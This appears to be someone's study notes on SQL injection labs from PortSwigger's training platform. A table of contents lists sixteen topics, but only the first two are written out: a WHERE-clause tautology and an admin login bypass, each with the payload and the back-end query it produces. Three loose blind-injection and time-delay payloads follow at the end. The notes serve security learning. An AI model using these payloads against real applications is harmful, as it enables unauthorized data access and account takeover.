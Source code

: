 ### Table of Contents
1.  SQLi: Vulnerability in `WHERE` clause allowing _retrieval of hidden data_
2.  SQLi: Vulnerability allowing `login bypass`
3.  SQLi: `UNION` attack determining the `num of columns` returned by the query
4.  SQLi: `UNION` attack, finding a `column` containing _text_
5.  SQLi: `UNION` attack, retrieving `data` from other _tables_
6.  SQLi: `UNION` attack, retrieving `multiple values` in a _single column_
7.  SQLi: Querying the `database type` and `version` on _Oracle_
8.  SQLi: Querying the `database type` and `version` on _MySQL & Microsoft_
9.  SQLi: Listing the `database contents` on _non Oracle_ DBs
10. SQLi: Listing the `database contents` on _Oracle_
11. Blind SQL: With _conditional responses_
12. Blind SQL: With _conditional errors_
13. Blind SQL: With _time delays_
14. Blind SQL: With `time delays` and _information retrieval_
15. Blind SQL: With `out-of-band` _interaction_
16. Blind SQL: With `out of band` _data exfiltration_

-------------------------------------------------------------
-------------------------------------------------------------

### 1. SQLi: Vulnerability in `WHERE` clause allowing _retrieval of hidden data_

[Assessed `SQL Query` in Background]:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

+ This was given to use by _Portswigger_

-- - - - - - - - - - - - - - - - - - - - - - - - - - --

[Final Payload]:
' or 1=1 --

Probable Back-end Query:
`SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1`
+ Remember that `--` is the _comment_ symbol in `SQL`
+ `--` is the _comment_ symbol in `SQL`

-------------------------------------------------------------
-------------------------------------------------------------

### 2.  SQLi: Vulnerability allowing `login bypass`

[Assessed `SQL Query` in Background]:
SELECT firstname FROM users where username='admin' and password='admin'

-- - - - - - - - - - - - - - - - - - - - - - - - - - --

[Final Payload]:
administrator'--

Probable Back-end Query:
`SELECT firstname FROM users where username='administrator'--' and password='admin'`
+ `--` is the _comment_ symbol in `SQL`


[Final Payload]: ' and (select 'x' from users LIMIT 1)='x'--
[Final Payload]: ' and (select username from users where username='administrator')='administrator'--
[This one worked]: ' || (SELECT sleep(10))--